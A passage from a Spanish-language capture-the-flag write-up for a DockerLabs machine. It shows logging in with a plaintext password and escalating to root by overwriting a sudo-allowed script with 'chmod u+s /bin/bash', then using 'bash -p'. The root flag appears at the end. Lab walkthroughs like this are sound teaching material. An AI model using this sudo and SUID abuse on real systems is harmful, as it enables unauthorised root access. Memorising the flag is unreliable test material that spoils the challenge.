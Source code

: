 ```shell
su purter
```

Metemos como contraseña `imposiblepassworduserfinal` y veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for purter on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User purter may run the following commands on dockerlabs:
    (ALL : ALL) NOPASSWD: /home/purter/.script.sh
```

Vemos que podemos ejecutar el script `/home/purter/.script.sh` como el usuario `root`, por lo que haremos lo siguiente.

Vemos que el script esta en nuestra `home`, por lo que podremos eliminarlo y poner con el mismo nombre el contenido que queramos de la siguiente forma:

```shell
rm /home/purter/.script.sh
nano /home/purter/.script.sh

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
```

Guardamos y lo ejecutamos de la siguiente forma:

```shell
chmod +x /home/purter/.script.sh
sudo /home/purter/.script.sh
```

Ahora si probamos a ver los permisos que tiene la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que se aplico de forma correcta el `SUID` a la `bash`, por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Vemos que haciendo esto ya seremos `root`, por lo que leeremos la flag de `root`.

> root.txt

```
e04292d1067e92530c22e87ebfc87d28
```
